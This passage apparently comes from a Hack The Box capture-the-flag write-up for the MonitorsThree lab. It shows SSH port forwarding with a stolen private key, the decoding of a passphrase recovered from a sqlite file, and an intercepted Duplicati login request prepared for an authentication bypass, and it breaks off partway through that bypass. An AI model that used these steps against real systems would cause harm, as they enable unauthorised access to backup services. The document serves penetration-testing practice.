 Let's set up the port forward:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ ssh -L 8200:127.0.0.1:8200 marcus@10.129.231.115 -i marcus_id_rsa
```

And we can see the duplicati login screen:

![htb_monitors3_duplicati.png](../assets/monitorsthree_assets/htb_monitors3_duplicati.png)

Let's now base64 decode and convert to hex the passphrase found in the sqlite file:

![htb_monitors3_chef.png](../assets/monitorsthree_assets/htb_monitors3_chef.png)

Let's now capture a login attempt after enabling "Do Intercept" the response and sending it to Repeater:

```
POST /login.cgi HTTP/1.1
Host: 127.0.0.1:8200
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 11
Origin: http://127.0.0.1:8200
Connection: close
Referer: http://127.0.0.1:8200/login.html
```